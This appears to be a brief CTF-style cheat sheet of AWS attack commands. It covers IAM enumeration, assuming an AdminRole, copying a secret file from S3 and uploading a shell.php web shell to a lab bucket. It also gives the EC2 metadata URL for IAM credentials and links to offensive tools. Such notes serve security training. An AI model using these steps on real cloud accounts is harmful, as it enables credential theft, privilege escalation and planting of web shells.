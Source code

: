 # Table of contents

- [Enumeration](#enumeration)

aws sts get-caller-identity

get user policies
aws iam list-user-policies --user-name username

get details about policy
aws iam get-user-policy --user-name username --policy-name policyname

aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name MySession --profile pwnedlabs
aws configure
aws configure set aws_session_token "<SessionToken>" 

aws s3 ls s3://emergency-data-recovery
aws s3 cp s3://emergency-data-recovery/secret.txt .

aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/

AWS metaservice instance
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/


### Tools
https://github.com/shabarkin/aws-enumerator
https://github.com/RhinoSecurityLabs/pacu

https://github.com/WeAreCloudar/s3-account-search/